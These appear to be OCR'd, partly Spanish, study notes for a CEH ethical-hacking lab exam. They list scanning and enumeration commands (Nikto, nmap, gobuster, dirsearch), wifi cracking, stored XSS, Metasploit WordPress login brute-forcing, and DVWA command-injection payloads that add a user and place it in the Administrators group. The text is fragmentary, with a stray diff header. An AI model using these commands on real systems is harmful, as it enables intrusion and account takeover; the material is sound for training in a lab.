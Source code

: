 Descifra
SNOW.EXE -C -p "magic" test2.txt


Nikto
nikto -h | view command help| -H for full help text
nikto -h http://www.goodshopping.com -Tuning 1 |-Tuning 1 Scan tuning  1=Interesting File / Seen in logs
---
nikto -h movies.ceorg.com   para encontrar servidor 


zaproxy
http://movies c.com 

Exploiting misconfigured NFS (port 2049) 
* `nmap -sV —p 2049 IP9/Subnet` 
@@ -478,9 +527,275 @@ ssh smith@192.168.0.x
* `ls -la` 
* Find the flag: `find / -name "*.txt" -ls 2> /dev/null` 

whatweb 
nmap -sV --script=http-enum [dominio de destino o dirección IP]
gobuster dir -u [Sitio web de destino] -w /home/attacker/Desktop/common.txt

cd dirsearch/ enumeracion directorios sitio web
python3 dirsearch.py ​​-u http://www.moviescope.com
 python3 dirsearch.py ​​-u http://www.moviescope.com -e aspx
python3 dirsearch.py ​​-u http://www.moviescope.com -x 403
Aircrack 
aircrack-ng -b <bssid from wireshark> -w <path to word list> < pcap file> 
Crypto  
Hashes.com 
veracrypt 
10 Malware

Parameter Tampering and XSS
•	Change id parameter in profile to view other profiles.
•	For XSS, type the script in comments field in contact page. (This is stored XSS and will be shown to every user who views the contact tab)

WPScan and Metasploit – Enumerating and Web App Hacking
•	Use wpscan --url http://[IP Address of Windows Server 2012]:8080/CEH --enumerate u | enumerate user list
•	In msfconsole use auxiliary/scanner/http/wordpress_login_enum
•	Type set PASS_FILE /root/Desktop/Wordlists/Passwords.txt
•	Type set RHOSTS [IP Address of Windows Server 2012]
•	Type set RPORT 8080
•	Type set TARGETURI /CEH/ or complete URL
•	Type set USERNAME admin and press Enter to set the username as admin.
•	Type run
•	Use URL http://[IP Address of Windows Server 2012]:8080/CEH/wp-login.php to login.

Remote Command Execution - Exploiting Vulnerability in DVWA
•	http://10.10.10.12:8080/dvwa | gordonb:abc123
•	Set Security settings to low
•	| hostname
•	| whoami
•	| tasklist
•	| dir C:\
•	| net user
•	| net user <username> /add | add custom user
•	| net user <username>
•	| net localgroup Administrators <username> /add | add user to admin group
